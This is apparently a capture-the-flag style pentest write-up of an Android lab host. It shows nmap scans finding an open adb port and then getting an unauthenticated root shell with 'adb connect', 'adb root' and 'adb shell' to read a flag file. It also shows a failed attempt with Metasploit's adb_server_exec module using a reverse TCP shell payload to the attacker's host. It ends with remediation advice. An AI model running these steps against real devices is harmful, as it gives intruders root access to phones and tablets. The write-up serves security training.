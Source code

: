 # Pentest 4 - Android - 48 - 10.14.1.48

Starting off this test, I wanted to evaluate a tool called autorecon that I was recommended.   
The framework itself is a shortcut to a lot of steps that are run manually such as nmap / nikto scans, and created a directory structure for findings.  
Useful to keep all your material and dumps / output in the same location.  
So I setup and installed [AutoRecon](https://github.com/Tib3rius/AutoRecon), and proceeded to run it.   

```bash
mkdir ~/reports/4/
cd ~/reports/4/
export ANDROID=10.14.1.48
sudo autorecon $ANDROID
```

### Scanning  
This produced the following scanning commands and output. 
Only one port was open - 5555, and deemed to be `adb` (Android Debugger). 
```bash
└─$ cat _commands.log     
nmap -vv --reason -Pn -T4 -sV -sC --version-all -A --osscan-guess -oN "/home/kali/reports/4/results/10.14.1.48/scans/_quick_tcp_nmap.txt" -oX "/home/kali/reports/4/results/10.14.1.48/scans/xml/_quick_tcp_nmap.xml" 10.14.1.48

nmap -vv --reason -Pn -T4 -sV -sC --version-all -A --osscan-guess -p- -oN "/home/kali/reports/4/results/10.14.1.48/scans/_full_tcp_nmap.txt" -oX "/home/kali/reports/4/results/10.14.1.48/scans/xml/_full_tcp_nmap.xml" 10.14.1.48

nmap -vv --reason -Pn -T4 -sU -A --top-ports 100 -oN "/home/kali/reports/4/results/10.14.1.48/scans/_top_100_udp_nmap.txt" -oX "/home/kali/reports/4/results/10.14.1.48/scans/xml/_top_100_udp_nmap.xml" 10.14.1.48

└─$ cat _quick_tcp_nmap.txt 
# Nmap 7.94 scan initiated Sun Jul 30 12:37:27 2023 as: nmap -vv --reason -Pn -T4 -sV -sC --version-all -A --osscan-guess -oN /home/kali/reports/4/results/10.14.1.48/scans/_quick_tcp_nmap.txt -oX /home/kali/reports/4/results/10.14.1.48/scans/xml/_quick_tcp_nmap.xml 10.14.1.48
adjust_timeouts2: packet supposedly had rtt of -163144 microseconds.  Ignoring time.
adjust_timeouts2: packet supposedly had rtt of -163144 microseconds.  Ignoring time.
adjust_timeouts2: packet supposedly had rtt of -189214 microseconds.  Ignoring time.
adjust_timeouts2: packet supposedly had rtt of -189214 microseconds.  Ignoring time.
adjust_timeouts2: packet supposedly had rtt of -160070 microseconds.  Ignoring time.
adjust_timeouts2: packet supposedly had rtt of -160070 microseconds.  Ignoring time.
Nmap scan report for 10.14.1.48
Host is up, received user-set (0.17s latency).
Scanned at 2023-07-30 12:37:27 EDT for 45s
Not shown: 999 closed tcp ports (reset)
PORT     STATE SERVICE REASON         VERSION
5555/tcp open  adb     syn-ack ttl 63 Android Debug Bridge device (name: android_x86; model: VMware Virtual Platform; device: x86)
Aggressive OS guesses: Linux 4.4 (99%), Linux 4.0 (98%), Linux 3.11 - 4.1 (96%), Linux 2.6.32 (96%), Linux 2.6.32 or 3.10 (96%), Linux 3.10 - 3.12 (95%), Linux 2.6.32 - 2.6.35 (94%), Linux 2.6.32 - 2.6.39 (94%), Linux 4.9 (93%), Linux 3.13 (93%)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94%E=4%D=7/30%OT=5555%CT=1%CU=38165%PV=Y%DS=2%DC=I%G=Y%TM=64C69
OS:1F4%P=x86_64-pc-linux-gnu)SEQ(SP=102%GCD=1%ISR=101%TI=Z%TS=A)SEQ(SP=102%
OS:GCD=1%ISR=103%TI=Z%II=I%TS=A)SEQ(SP=103%GCD=1%ISR=103%TI=Z%TS=A)SEQ(SP=1
OS:03%GCD=1%ISR=103%TI=Z%II=I%TS=A)OPS(O1=M5B4ST11NW7%O2=M5B4ST11NW7%O3=M5B
OS:4NNT11NW7%O4=M5B4ST11NW7%O5=M5B4ST11NW7%O6=M5B4ST11)WIN(W1=7120%W2=7120%
OS:W3=7120%W4=7120%W5=7120%W6=7120)ECN(R=Y%DF=Y%TG=40%W=7210%O=M5B4NNSNW7%C
OS:C=Y%Q=)ECN(R=Y%DF=Y%T=40%W=7210%O=M5B4NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%TG=40%S
OS:=O%A=S+%F=AS%RD=0%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=
OS:N)T4(R=N)T5(R=Y%DF=Y%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40
OS:%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=N)T7(R=N)U1(R=N)U1(R=Y%DF=N%T=40%IPL=
OS:164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%TG=40%CD=S)IE(R=
OS:Y%DFI=N%T=40%CD=S)

Uptime guess: 0.001 days (since Sun Jul 30 12:37:26 2023)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=259 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Android; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT       ADDRESS
1   169.36 ms 10.14.1.48

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jul 30 12:38:12 2023 -- 1 IP address (1 host up) scanned in 44.47 seconds
```

### Exploitation  
I've used adb in the past as I've rooted my own personal devices. Based on that previous experience, and the fact that I knew it had a listening port, 
I guessed maybe I could just try to access it directly?

```bash
└─$ adb                                                                                                                                                         130 ⨯
Command 'adb' not found, but can be installed with:
sudo apt install adb                                    
sudo apt install google-android-platform-tools-installer
                   
sudo apt install adb google-android-platform-tools-installer                                 

Processing triggers for kali-menu (2021.4.2) ...
Processing triggers for libc-bin (2.36-9) ...
Processing triggers for man-db (2.9.4-2) ...
                                                                                                                                                                      
┌──(kali㉿kali)-[~/reports/4/results]
└─$ adb connect                                             
adb: usage: adb connect HOST[:PORT]


┌──(kali㉿kali)-[~/reports/4/results]
└─$ adb connect $ANDROID                                    
* daemon not running; starting now at tcp:5037
* daemon started successfully
connected to 10.14.1.48:5555
                                                                                                                                                                      
┌──(kali㉿kali)-[~/reports/4/results]
└─$ adb connect $ANDROID
already connected to 10.14.1.48:5555
                                                                                                                                                                      
┌──(kali㉿kali)-[~/reports/4/results]
└─$ adb root            
restarting adbd as root
                                                                                                                                                                      
┌──(kali㉿kali)-[~/reports/4/results]
└─$ adb shell
root@x86:/ # whoami
root

1|root@x86:/ # ip addr
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN 
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: sit0@NONE: <NOARP> mtu 1480 qdisc noop state DOWN 
    link/sit 0.0.0.0 brd 0.0.0.0
3: ip6tnl0@NONE: <NOARP> mtu 1452 qdisc noop state DOWN 
    link/tunnel6 :: brd ::
4: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP qlen 1000
    link/ether 00:0c:29:af:f6:88 brd ff:ff:ff:ff:ff:ff
    inet 10.14.1.48/24 brd 10.14.1.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::20c:29ff:feaf:f688/64 scope link 
       valid_lft forever preferred_lft forever
root@x86:/ # 

127|root@x86:/ # getprop net.hostname
android-e198eecc6f5457fa
root@x86:/ # 

root@x86:/ # find / -name key.txt
/data/root/key.txt
root@x86:/ # 
root@x86:/ # cat /data/root/key.txt
x7vyfyxcaq6p7vxx2ruo
root@x86:/ # 
```

### Conclusion 
That was really straight-forward?   
Essentially, I was able to install `adb`, connect to the host, and pop a shell.  
From here, I thought it was almost too easy, so I ran a few commands just to make sure I was in fact on the host - namely `ip addr` to verify the interface I was on,
as well as the hostname. All checked out, and we got the flag. 

### Alternate

I was curious if Metasploit had anything for this as well. While there was an exploit available, I was unable to successfully use it - no shell sessions were established.
```bash
msf6 > search adb platform:android
[-] No results from search
msf6 > search adb platform:linux

As a test, I tried metasploit to see if I would have any success -

search adb platform:linux
Matching Modules
================

   #  Name                                                   Disclosure Date  Rank       Check  Description
   -  ----                                                   ---------------  ----       -----  -----------
   0  exploit/android/adb/adb_server_exec                    2016-01-01       excellent  Yes    Android ADB Debug Server Remote Payload Execution
   1  exploit/multi/misc/bmc_server_automation_rscd_nsh_rce  2016-03-16       excellent  Yes    BMC Server Automation RSCD Agent NSH Remote Command Execution


Interact with a module by name or index. For example info 1, use 1 or use exploit/multi/misc/bmc_server_automation_rscd_nsh_rce

msf6 > use 0

msf6 exploit(android/adb/adb_server_exec) > show options

Module options (exploit/android/adb/adb_server_exec):

   Name         Current Setting   Required  Description
   ----         ---------------   --------  -----------
   RHOSTS                         yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT        5555              yes       The target port (TCP)
   SRVHOST      0.0.0.0           yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT      8080              yes       The local port to listen on.
   SSL          false             no        Negotiate SSL for incoming connections
   SSLCert                        no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                        no        The URI to use for this exploit (default is random)
   WritableDir  /data/local/tmp/  yes       Writable directory


Payload options (linux/armle/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   ARGV0  sh               no        argv[0] to pass to execve
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
   SHELL  /bin/sh          yes       The shell to execute.


Exploit target:

   Id  Name
   --  ----
   0   armle

msf6 exploit(android/adb/adb_server_exec) > set RHOST 10.14.1.48
RHOST => 10.14.1.48
msf6 exploit(android/adb/adb_server_exec) > set LHOST ppp0
LHOST => 172.16.4.1
msf6 exploit(android/adb/adb_server_exec) > exploit


*] Started reverse TCP handler on 172.16.4.1:4444 
[*] 10.14.1.48:5555 - Connecting to device...
[-] Command shell session 1 is not valid and will be closed
[*] 10.14.1.48 - Command shell session 1 closed.
[-] Command shell session 2 is not valid and will be closed
[*] 10.14.1.48 - Command shell session 2 closed.
```

### Remediation

Most importantly, I would disable adb over the network. In practice, I've only ever used `adb` locally, when directly connected to the device using USB.
If this is a built-in device, or something that is not easily physically accessible (like a mounted tablet), at a minimum restricting access to a private / local subnet 
only, to limit and prevent outside access. 
